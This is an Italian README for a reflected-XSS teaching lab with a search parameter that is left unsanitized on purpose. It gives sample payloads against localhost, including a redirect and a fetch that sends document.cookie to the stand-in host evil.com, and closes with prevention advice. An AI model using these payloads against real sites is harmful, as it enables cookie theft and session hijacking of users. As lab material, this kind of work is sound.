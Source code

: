 # Challenge 1 - Reflected XSS

Questa challenge è stata creata per dimostrare il concetto di Cross-Site Scripting (XSS) Reflected, un tipo di vulnerabilità web che permette l'iniezione di codice JavaScript malevolo.

## Obiettivo
Lo scopo di questa challenge non è trovare una flag specifica, ma comprendere come funziona un attacco XSS Reflected e come può essere utilizzato per eseguire codice JavaScript arbitrario nel contesto di una pagina web.

## Come funziona
La challenge presenta un'applicazione web con una funzionalità di ricerca. Il parametro `q` nella query string viene riflesso direttamente nella pagina HTML senza alcuna sanitizzazione.

## Esempio di attacco
Puoi provare a iniettare codice JavaScript in diversi modi:

1. Alert semplice:
```
http://localhost:801/?q=<script>alert(1)</script>
```

2. Visualizzare i cookie:
```
http://localhost:801/?q=<script>alert(document.cookie)</script>
```

3. Redirect a un altro sito:
```
http://localhost:801/?q=<script>window.location.href="https://evil.com"</script>
```

4. Inviare dati a un server controllato dall'attaccante:
```
http://localhost:801/?q=<script>fetch('https://evil.com?cookie='+document.cookie)</script>
```

## Come funziona l'attacco
1. L'utente inserisce del codice JavaScript malevolo nel campo di ricerca
2. Il server riflette questo input direttamente nella pagina HTML
3. Il browser interpreta il JavaScript riflesso come codice eseguibile
4. Il codice viene eseguito nel contesto della pagina web

## Implicazioni di sicurezza
- Il codice JavaScript viene eseguito nel contesto della pagina web
- Può accedere a:
  - Cookie del dominio
  - DOM della pagina
  - Local Storage
  - Session Storage
  - E altre risorse accessibili via JavaScript

## Prevenzione
Per prevenire attacchi XSS, è importante:
1. Sanitizzare tutti gli input utente
2. Utilizzare escape appropriati per i dati riflessi
3. Implementare Content Security Policy (CSP)
4. Utilizzare framework che gestiscono automaticamente la sanitizzazione

## Note
In un ambiente reale, queste vulnerabilità potrebbero essere sfruttate per:
- Furto di cookie
- Furto di dati sensibili
- Manipolazione del DOM
- Reindirizzamenti malevoli
- Esecuzione di azioni non autorizzate

## Avviare il server:
```bash
docker pull ghcr.io/ax3lt/xss-ch1
docker run -p 80:80 ghcr.io/ax3lt/xss-ch1
```

Buona fortuna! 🚀🔓
